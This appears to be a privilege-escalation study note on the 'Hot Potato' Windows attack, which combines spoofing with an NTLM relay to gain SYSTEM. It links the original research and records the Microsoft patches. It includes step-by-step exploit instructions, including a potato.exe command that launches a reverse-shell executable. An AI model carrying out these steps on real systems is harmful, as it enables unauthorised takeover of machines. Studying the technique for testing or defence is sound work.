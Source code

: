 # Hot Potato
Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.
The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

![hot potato](https://jlajara.gitlab.io/assets/images/posts/20201122/Diagram_1.png)

To understand deeper this technique, the researchers post/video are recommended:

- [https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)
- [https://www.youtube.com/watch?v=8Wjs__mWOKI](https://www.youtube.com/watch?v=8Wjs__mWOKI)

***exploit***
(Note: These steps are for Windows 7)
Download the binary from the repository: https://github.com/foxglovesec/Potato
1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit:
`.\potato.exe -ip <local ip> -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true`
4. Wait for a Windows Defender update, or trigger one manually.


***Is this vulnerability exploitable right now?***

Microsoft patched this (MS16-075) by disallowing same-protocol NTLM authentication using a challenge that is already in flight. What this means is that **SMB->SMB NTLM relay from one host back to itself will no longer work**. MS16-077 WPAD Name Resolution will not use NetBIOS (CVE-2016-3213) and does not send credential when requesting the PAC file(CVE-2016-3236). **WAPD MITM Attack is patched.**